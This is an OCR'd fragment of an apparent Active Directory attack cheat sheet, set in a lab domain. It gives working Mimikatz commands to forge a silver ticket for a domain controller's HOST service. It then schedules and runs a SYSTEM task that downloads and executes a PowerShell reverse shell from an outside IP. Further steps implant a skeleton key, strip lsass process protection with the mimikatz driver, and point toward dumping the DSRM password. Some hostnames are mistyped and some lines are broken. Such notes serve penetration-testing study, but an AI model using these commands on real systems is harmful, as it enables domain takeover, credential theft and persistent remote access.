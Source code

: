 - Create a silver ticket for the HOST SPN which will allow us to schedule a task

Invoke-Mimikatz -Command '"kerberos::golden /domain:lab.domain.local /sid:S-1-5-x-x-x-x

/target:DC01.lab.dmoain.local /service:HOST /rc4:00000000000000000000000000000000 /user:Administrator /ptt"' # CONFIGURE REMOTE TASK

schtasks /create /S DC01.lab.domain.local /SC Weekly /RU "NT Authority\SYSTEM" /TN

"Abuse01" /TR "powershell.exe -c 'iex (New-Object

Net.WebClient).DownloadString(''http://10.10.10.10/Invoke-PowerShellTcp.ps1''')'"

# EXEC REMOTE TASK schtasks /Run /S DC01.lab.domain.local /TN "Abuse01"

### SKELETON KEY

# REMOTE

$sess = New-PSSession DC01.domain.local

Enter-PSSession -Session $sess

# BYPASS AMSI AND EXIT

Invoke-Command -FilePath C:\Invoke-Mimikatz.ps1 -Session $sess

Enter-PSSession -Session $sess

Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"'

# OR

Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName DC01.lab.dmoain.local

# LOGIN

Enter-PSSession -Computername DC01 -credential domain\Administrator

# PASSWORD mimikatz

- Skeleton Key with lsass running as a protected process mimikatz # privilege::debug mimikatz # !+ mimikatz # !processprotect /process:lsass.exe /remove mimikatz # misc::skeleton mimikatz # !- needs the mimikatz driver (mimidriv.sys) on disk of the target DC

### DSRM

- Dump DSRM password (needs DA privs)
